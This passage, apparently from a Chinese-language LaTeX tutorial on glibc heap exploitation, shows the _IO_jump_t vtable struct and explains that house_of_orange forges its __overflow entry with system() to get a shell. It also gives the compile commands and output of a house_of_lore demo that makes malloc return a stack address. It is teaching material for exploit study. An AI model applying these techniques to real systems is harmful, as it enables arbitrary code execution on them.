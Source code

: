 其中有一个指向函数跳转表的指针，\verb+ _IO_jump_t+的结构如下：
\begin{verbatim}
// libio/libioP.h
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};

\end{verbatim}

house\_of\_orange 伪造 \verb+ _IO_jump_t+中的\verb+ __overflo+为\verb+ system()+函数的地址，从而达到执行 shell 的目的。

\subsection{house\_of\_lore}

编译，运行得到结果：

\begin{verbatim}
$ gcc -g house_of_lore.c 
$ ./a.out 
Allocated the victim (small) chunk: 0x1b2e010
stack_buffer_1: 0x7ffe5c570350
stack_buffer_2: 0x7ffe5c570330

Freeing the victim chunk 0x1b2e010, it will be inserted in the unsorted bin
victim->fd: 0x7f239d4c9b78
victim->bk: 0x7f239d4c9b78

Malloc a chunk that can't be handled by the unsorted bin, nor the SmallBin: 0x1b2e0c0
The victim chunk 0x1b2e010 will be inserted in front of the SmallBin
victim->fd: 0x7f239d4c9bf8
victim->bk: 0x7f239d4c9bf8

Now emulating a vulnerability that can overwrite the victim->bk pointer
This last malloc should return a chunk at the position injected in bin->bk: 0x7ffe5c570360
The fd pointer of stack_buffer_2 has changed: 0x7f239d4c9bf8

Nice jump d00d
\end{verbatim}

